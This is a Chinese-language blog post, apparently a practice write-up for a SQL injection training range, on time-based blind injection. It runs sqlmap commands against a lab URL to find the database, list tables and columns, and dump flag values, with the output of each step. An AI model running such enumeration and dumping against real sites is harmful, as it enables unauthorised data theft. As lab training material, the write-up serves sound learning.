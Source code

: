 ```yaml
---
date: "2020-12-09T00:00:00Z"
description: 掌控安全 SQL 注入靶场练习 - 时间盲注
keywords: SQL注入, SQLMAP
tags:
- 安全
- SQL注入
title: 掌控安全 SQL 注入靶场练习 - 时间盲注
---
```


# 掌控安全 SQL 注入靶场练习 - 时间盲注

SQL 时间盲注

## 0x01 使用 SQLMAP 工具

### 0x01.1 dump database

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 --current-db
```

**执行结果**

```
current database: 'kanwolongxia'
```

### 0x01.2 dump tables

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia --tables

```

**执行结果**

```
Database: kanwolongxia
[3 tables]
+--------+
| user   |
| loflag |
| news   |
+--------+
```

> 3 tables: user, loflag, news

### 0x01.3 dump columns

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag --columns
```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flaglo | varchar(255) |
| Id     | int(11)      |
+--------+--------------+
```

### 0x01.4 dump values

```bash
./sqlmap.py -u http://vulhub.example.com:81/Pass-10/index.php?id=1 -D kanwolongxia -T loflag -C flaglo --dump

```

**执行结果**

```
Database: kanwolongxia
Table: loflag
[5 entries]
+----------------+
| flaglo         |
+----------------+
| zKaQ-Moren     |
| zKaQ-QQQ       |
| zKaQ-RD        |
| zKaQ-time-hj   |
| zKaQ-time-zxxz |
+----------------+
```
